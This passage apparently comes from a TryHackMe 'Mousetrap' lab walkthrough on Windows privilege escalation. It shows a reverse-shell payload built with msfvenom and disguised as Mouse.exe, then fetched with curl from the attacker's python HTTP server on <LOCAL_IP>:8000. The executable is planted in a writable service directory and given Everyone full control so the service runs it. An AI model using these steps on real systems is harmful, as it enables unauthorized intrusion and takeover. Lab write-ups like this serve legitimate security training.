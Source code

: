 We have different options but we will use the third one and target the *Mobile Mouse* directory.

![permissions](/assets/img/tryhackme/walkthrough/mousetrap/7.png)

Thanks to the `icalcs` command, we know that we have the permission to write in this directory so we create a payload using **msfvenom** (for a reverse shell again), name it *Mouse.exe* and transfer it to the target machine.

In order to transfer it, we settle a **python server** on the attack machine and use **curl** to transfer the file to the target machine.

```shell
python3 -m http.server #On the attack machine

curl http://<LOCAL_IP>:8000/Mouse.exe -o Mouse.exe #On the target machine
```

Then we move the malicious exe file called *Mouse.exe* to the correct directory and grant *Everyone* full permission on it to make sure it can be executed by the service with the command `icacls "c:\Program Files (x86)\Mobile Mouse\Mouse.exe" /grant Everyone:F`.
